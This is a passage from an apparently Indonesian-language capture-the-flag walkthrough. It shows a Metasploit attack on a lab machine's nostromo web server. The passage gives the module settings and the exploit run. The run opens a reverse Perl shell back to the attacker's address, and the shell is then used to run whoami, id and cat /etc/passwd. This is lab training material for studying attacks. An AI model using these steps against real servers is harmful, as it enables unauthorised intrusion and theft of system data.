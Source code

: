 ```
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)


msf5 exploit(multi/http/nostromo_code_exec) > 
```

lakukan seting untuk `rhosts` dan `lhosts` 

```
msf5 exploit(multi/http/nostromo_code_exec) > set rhosts 10.10.10.165
rhosts => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > set lhost 10.10.14.16
lhost => 10.10.14.16
msf5 exploit(multi/http/nostromo_code_exec) > exploit 

[*] Started reverse TCP handler on 10.10.14.16:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.16:4444 -> 10.10.10.165:48894) at 2020-04-12 15:59:03 +0700


whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/usr/bin
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
david:x:1000:1000:david,,,:/home/david:/bin/bash
```